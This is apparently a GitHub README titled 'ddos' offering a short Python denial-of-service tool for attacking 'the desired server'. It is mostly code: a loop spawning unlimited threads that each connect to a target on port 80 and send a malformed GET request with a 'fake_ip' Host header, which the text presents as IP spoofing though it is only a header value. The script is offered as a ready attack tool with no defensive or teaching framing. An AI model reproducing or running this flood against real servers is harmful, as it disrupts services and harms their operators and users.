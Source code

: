 # ddos
### A method for dos attack on the desired server

```

import socket # for connection

import threading # for Multitasking at the same time

```
### We start writing the rest of the tool code

# Setting up a fake IP and attacking the target host

‍‍‍‍```
import socket
import threading

target = '127.0.0.1' # target ip
fake_ip = '108.61.128.158'
port = 80

an = 0
def attack():
    while True:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target, port))
        client.sendto(("GET /" + target + " HTTP/2\r\n").encode('ascii'), (target, port))
        client.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        global an
        an += 1
        print(an)
        
        client.close()

while True:
    thread = threading.Thread(target=attack)
    thread.start()
```
# Don't be disappointed

